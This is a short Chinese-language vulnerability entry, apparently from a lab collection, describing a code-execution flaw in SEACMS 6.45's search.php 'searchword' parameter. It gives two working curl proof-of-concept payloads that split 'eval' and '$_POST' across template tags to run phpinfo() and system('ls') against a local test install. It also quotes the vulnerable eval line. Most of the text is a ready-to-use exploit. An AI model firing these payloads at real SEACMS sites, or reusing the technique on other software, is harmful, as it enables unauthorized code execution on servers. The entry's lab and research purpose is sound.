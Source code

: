 ## searchword 代码执行漏洞

测试镜像

* src/seacms/6.45/

影响版本

* 6.45

参考链接

* [漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)

Poc

```
# phpinfo
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();'

# 执行 ls 命令
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls");'
```

关键代码

```
# payload 放在 IF 条件里，导致代码执行
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

